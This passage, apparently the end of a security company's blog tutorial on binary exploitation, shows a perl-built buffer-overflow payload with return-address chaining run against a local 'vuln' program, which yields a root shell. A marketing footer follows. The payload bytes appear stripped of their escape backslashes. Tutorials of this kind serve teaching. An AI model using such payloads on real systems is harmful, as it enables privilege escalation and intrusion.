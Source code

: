 ``$ /home/arget/vuln "`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "x1cxd2xffxff" . "x27x85x04x08"x5 . "x60x3dxebxf7" . "x6cx84x04x08"'`"  
[...]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]  
# whoami  
root  
#``  
Exploited.  
This little program will last us for a while. How many different ways can exploit a program?  
Regards.

At Puffin Security, At Puffin Security, we use the ELITE SECURITY TESTING CONSULTING methodology so you can rest assured that your organization will have the highest level of cloud security. 

Complete the form, and we'll be in touch as soon as possible

[![Lets Audit Button](/assets/uploads/2023/01/Puffin-security-blog-button-lest-audit-2.jpg 'lets Audit Button')](https://hub.puffinsecurity.com/quote)
